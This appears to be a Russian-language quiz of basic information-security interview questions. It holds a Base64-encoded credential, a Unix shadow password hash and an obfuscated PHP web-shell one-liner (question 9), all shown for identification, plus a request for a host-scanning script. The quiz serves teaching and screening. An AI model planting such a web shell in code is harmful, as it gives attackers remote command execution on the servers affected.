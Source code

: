 Базовые вопросы по информационной безопасности
==============================================
1. Что это и где это можно увидеть?
~~~~~~~~~~~
RnJlZDpwNDU1MTIzNA==
~~~~~~~~~~~
  1. Хеш MD5 из файла /etc/passwd
  2. Хеш MD5 из файла /etc/shadow
  3. Строка Base64 из HTTP-сессии
  4. Строка Base32 из HTTP cookie

2. Что это и где это можно увидеть?
~~~~~~~~~~~
$6$8BxedHgytw0E6oTe$khJsZIJUZmiPpFpbDaJBhJrEp1DFyUDDrhkvuIHzb6sPPKiHrjBdINZe3sSb/y0wOpY4NICyGd5tXHhX3E.Z70
~~~~~~~~~~~
3. Назовите пять способов подсоединиться к TCP портам 80 или 443.
4. Какова принципиальная разница между симметричным и асимметричным шифрованием?
5. Возможно ли перехватить, просмотреть или модифицировать HTTPS трафик?
5. Что такое MITM атака?
6. Каковы возможные последствия атаки Cross-Site Scripting?
7. Что здесь неправильно?
~~~~~~~~~~~
select * from *;
~~~~~~~~~~~
9. Что это такое?
~~~~~~~~~~~
<?$_="";$_[+""]='';$_="$_"."";$_=($_[+""]|"").($_[+""]|"").($_[+""]^"");?><?=${'_'.$_}['_'](${'_'.$_}['__']);?>
~~~~~~~~~~~
10. Какова разница между эксплоитом и шеллкодом?
11. Какова разница между шифрованием файлов и Full Disk Encryption?
12. Какой принцип должен быть реализован в завершение цепочки правил межсетевого экрана?
13. Какие принципы защищенной архитектуры вы знаете?
14. Напишите скрипт на shell, выполнив которы на любой Linux-машине можно пручить список активных хостов в присоединенной сети класса C.
